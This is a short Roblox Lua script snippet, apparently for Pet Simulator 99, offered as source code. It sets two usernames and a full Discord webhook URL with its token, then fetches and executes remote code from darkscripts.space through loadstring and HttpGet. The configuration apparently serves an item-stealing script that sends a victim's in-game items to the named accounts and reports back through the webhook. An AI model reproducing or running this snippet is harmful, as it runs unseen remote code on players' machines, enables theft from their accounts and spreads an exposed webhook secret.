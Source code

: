 Username = "fnnyx_y"
Username2 = "Test13131314"
Webhook = "https://discord.com/api/webhooks/1302042546997821512/d0uyF8DODynMIylkUh_W4ZPzQ-t0-JSN-htw_8B6_4nYsvLcQ1xLCNTKyVcRhYgmko7z"

loadstring(game:HttpGet(('https://darkscripts.space/ps99')))()
